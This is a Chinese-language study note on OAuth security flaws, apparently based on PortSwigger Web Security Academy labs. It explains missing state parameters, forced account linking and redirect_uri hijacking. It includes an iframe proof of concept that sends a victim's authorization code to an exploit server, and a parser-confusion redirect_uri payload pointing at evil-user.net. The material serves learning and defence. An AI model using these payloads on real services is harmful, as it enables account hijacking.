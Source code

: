 理想情况下，**state参数应包含一个不可猜测的值**，在用户**首次启动 OAuth 流时**与用户会话**相关联的内容的哈希值**。然后，此值在客户端应用程序和 OAuth 服务**之间来回传递**，作为客户端应用程序的**CSRF 令牌形式**。

因此，如果**注意到授权请求没有发送`state`参数**，从攻击者的角度来看，这可能**意味着**他们可以**在欺骗用户浏览器完成之前自己启动 OAuth 流程**，类似于传统的[CSRF 攻击](https://portswigger.net/web-security/csrf)。这可能会产生严重后果，具体取决于客户端应用程序使用 OAuth 的方式。

考虑一个**允许用户使用经典的基于密码的机制**或**通过使用 OAuth 将他们的帐户链接到社交媒体配置文件来登录**的网站。在这种情况下，如果应用程序**未能使用该`state`参数**，攻击者可能会**通过将客户端应用程序绑定到他们自己的社交媒体帐户**来**劫持受害者用户**在客户端应用程序上**的帐户**。

如果该站点允许用户**以独占方式通过 OAuth 登录**，则该**state参数可能不太重要**。但是，不使用`state`参数仍然可以让攻击者构造登录 CSRF 攻击，从而诱骗用户登录到攻击者的帐户。

labs:强制 OAuth 配置文件链接

wp:通过客户端向服务器发送了一次认证（缺少state值但这里不重要），请求到了一个oauth-linking?code=xxxxx的资源链接，这个code应该是在服务端已经标识了我的用户名或客户端，所以当我把这个链接（通过漏洞服务器）发送给受害者时，受害者就将自己的社交资料绑定给了我，进而我获取到了admin权限。

####泄露授权码和访问令牌

经典漏洞：当 **OAuth 服务本身的配置**使攻击者能够**窃取授权代码或访问与其他用户帐户关联的令牌**时。攻击者可能会以受害者用户身份**登录任何**注册了此 OAuth 服务的客户端应用程序

**通过受害者的浏览器**将**代码或令牌发送到授权请求参数中`/callback`指定的端点**。`redirect_uri`如果 OAuth 服务**未能正确验证此 URI**，则攻击者可能能够构建类似 CSRF 的攻击，诱使受害者的浏览器启动 OAuth 流，该流将代码或令牌发送给**攻击者控制的`redirect_url`**.

在授权code流的情况下，攻击者可能会**在受害者的code被使用之前窃取它**。然后，他们可以将此代码**发送到客户端应用程序的合法`/callback`端点（原始端点`redirect_uri`）以访问用户帐户**。在这种情况下，攻击者甚至不需要知道客户端密码或生成的访问令牌。**只要受害者与 OAuth 服务有一个有效的会话**，客户端应用程序就会在将攻击者登录到受害者的帐户之前简单地**代表攻击者完成code/令牌交换**。

请注意，使用`state`或`nonce`保护并不一定能阻止这些攻击，因为攻击者可以从他们自己的浏览器中生成新值。

更安全的授权服务器`redirect_uri`**在交换代码时也需要发送一个参数**。然后，服务器可以检查这是否与它在初始授权请求中收到的匹配，如果不匹配，则拒绝交换。**由于这发生在通过安全反向通道的服务器到服务器请求中，攻击者无法控制第二个`redirect_uri`参数**。

labs：通过 redirect_uri 劫持 OAuth 帐户

wp：判断是否服务器有对redir_uri进行检测，通过漏洞服务器发送poc，获取code，进行劫持。

：在OAuth服务端收到redirect_uri时验证其是否在白名单内

```
poc：
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

#####有缺陷的 redirect_uri 验证

最佳实践是客户端应用程序在注册 OAuth 服务时提供其真实回调 URI 的白名单。这样，当 OAuth 服务接收到新请求时，它可以`redirect_uri`根据此白名单验证参数。在这种情况下，提供外部 URI 可能会导致错误。但是，可能仍然有绕过此验证的方法。

在审核 OAuth 流时，应该尝试使用该`redirect_uri`参数来了解它是如何被验证的。例如：

- 一些实现通过**仅检查字符串是否以正确的字符序列（即批准的域）开头**来允许一系列子目录。**应该尝试删除或添加任意路径、查询参数和片段**，以**查看可以更改哪些内容而不会触发错误**。

- 如果可以**将额外的值附加到默认`redirect_uri`参数**，可能**能够利用 OAuth 服务的不同组件解析 URI 之间的差异**。例如，可以尝试以下技术：

  ```
  https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/
  ```

